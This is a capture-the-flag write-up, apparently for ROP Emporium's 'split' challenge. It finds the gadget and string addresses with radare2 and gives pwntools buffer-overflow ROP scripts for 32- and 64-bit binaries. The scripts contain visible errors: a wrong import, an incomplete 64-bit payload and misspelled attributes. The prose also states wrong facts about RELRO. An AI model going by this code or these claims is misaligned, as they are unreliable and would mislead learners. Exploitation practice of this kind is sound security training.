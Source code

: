 
# Split 32 bit

As usual we run **rabin2 -I split** to see what kind of protection are enabled.

![rabin2 -I split](./images/01_02.png)

As we can see that the protection enabled are:

* NX, so the stack is not executable.
* PIC (Position Indipendent Code), it is used to load shared libraries in
location on each program address space where it will not overlap any other uses
of memory.
* RELRO (Relocation Read-Only), so the GOT is read only. In this case is partial
enabled so the PLT part of the GOT is writtable, in this case we can not use
baffer overflow attacks.

Now as always we run **iz** after we run **radare2 split** to see all the
strings that are present in the data section. If we want to see the strings in
all the binary we use **izz**.

![iz show strings in data section](./images/01_03.png)

In the result we see that is present a **/bin/cat flag.txt**, now we can use is
address to find all the reference to that string in tha binary, (**axt** command).
But the result is empty so there is no function that call that string. But we save
his address to use it in the exploit.

Now we can open the binary with radare2 and seek (s) the main and enter in
visual mode (V), now we see that the only call that we interest in is the pwnme.

![pwnme function](./images/01_04.png)

In this function we see that the binary allocate 0x20 (32) bytes for the buffer,
but then it use 0x60 (96) as number of bites to read.

Then if we list all the function in the binary we find: **usefulFunction**.

![usefulFunction](./images/01_05.png)

As we see there is a call to system, we save his address.

```python
import pwntools

elf = context.binary = ELF('split32')
context.log_level = 'debug'
system_parameter = p32(0x0804a030)
system = p32(elf.symbols.system)
system = p32(0x0804861a)

# We get the length of our junk part of the payload
io = process(elf.path)
io.sendline(cyclic(100))
io.wait()
eip = io.core.eip
offset = cyclic_find(eip)

payload = 'A'*offset + system + system_parameter

p = process(elf.path)
p.sendline(payload)
p.readall()
```

# Split 64 bit

We use radare2 function "iz" to find the string "/bin/cat/ flag.txt"
(0x00601060), this is the parameter that we pass to system.

Then we need the address of the function system, we can get it with pwntools.

Now we need a function to overflow, we can use the function pwnme that give us a
uverflow of 92 bytes in total.

[Overflow](./images/01_00.png)

Then we need a to create our ROP, to do so we need a sequence of "pop rdi, ret"
because we are in 64 bit. We can use the function "/a pop rdi, ret" or radare2,
we get the address "0x004007c3"

[ROP data](./images/01_01.png)

## Script

```python
from pwn import *

elf = context.binary = ELF('split')
context.log_level = 'debug'
system_parameter = 0x00601060
system = p64(elf.symbols.system)
info("target string %#x", system_parameter)
info("address of system() %x", system)

gadget = p64(0x004007c3)

io = process(elf.path)
io.sendline(cyclic(128))
io.wait()
core = io.corefile
stack = core.rsp
info("stack: %#x", stack)
pattern = core.read(stack, 4)
offset = cyclic.find(pattern)
info("pattern: %#x", pattern)
padding = cyclic(offset)

payload = padding + gadget
info("ROP Payload: %s", payload)

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recv()

core = io.corefile
stack = core.risp
pattern = core.read(stack, 4)
info("pattern: %r", pattern)
```
